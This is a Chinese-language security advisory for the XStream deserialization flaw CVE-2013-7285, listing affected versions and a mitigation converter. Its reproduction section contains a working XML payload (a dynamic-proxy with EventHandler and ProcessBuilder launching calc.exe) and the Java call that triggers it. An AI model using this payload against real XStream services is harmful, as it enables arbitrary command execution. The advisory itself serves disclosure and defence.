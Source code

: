 # CVE-2013-7285

## 脆弱性

CVE-2013-7285: XStream 可以用于远程代码执行。

## 影响版本

在 1.4.6 之前的所有版本都将受到影响，但存在一个解决方案。

如果安全框架没有被初始化，版本 1.4.10 将受到影响。

## 描述

在解组时处理的流包含类型信息，以重新创建以前写入的对象。因此，XStream 根据这些类型信息创建新的实例。攻击者可以操作已处理的输入流并替换或注入对象，这些对象可以执行任意 shell 命令。

## 重现步骤

创建一个简单的接口，例如命名 Contact 和一个实现类。使用 XStream 将这样的对象编组为 XML。用以下代码片段替换 XML，并再次用 XStream 反编组它:

```xml
<contact class='dynamic-proxy'>
  <interface>org.company.model.Contact</interface>
  <handler class='java.beans.EventHandler'>
    <target class='java.lang.ProcessBuilder'>
      <command>
        <string>calc.exe</string>
      </command>
    </target>
    <action>start</action>
  </handler>
</contact>
```

```java
XStream xstream = new XStream();
Contact contact = (Contact)xstream.fromXML(xml);
```

然后，只要代码调用 Contact 实例上的任何方法，就会执行有效负载，例如 Contact . getfirstname()。

注意，本例使用 XML，但攻击可以针对任何支持的格式执行。例如 JSON。

## 影响

该漏洞可能允许远程攻击者仅通过操纵已处理的输入流来运行任意 shell 命令。

## 解决方案

用户可以为动态代理、`java.beans.EventHandler` 类型或 `java.lang.ProcessBuilder` 类型注册自己的转换器，这也可以防止这种特殊情况下的攻击:

```java
xstream.registerConverter(new Converter() {
  public boolean canConvert(Class type) {
    return type != null && (type == java.beans.EventHandler || type == java.lang.ProcessBuilder || Proxy.isProxy(type));
  }

  public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    throw new ConversionException("Unsupported type due to security reasons.");
  }

  public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
    throw new ConversionException("Unsupported type due to security reasons.");
  }
}, XStream.PRIORITY_LOW);
```
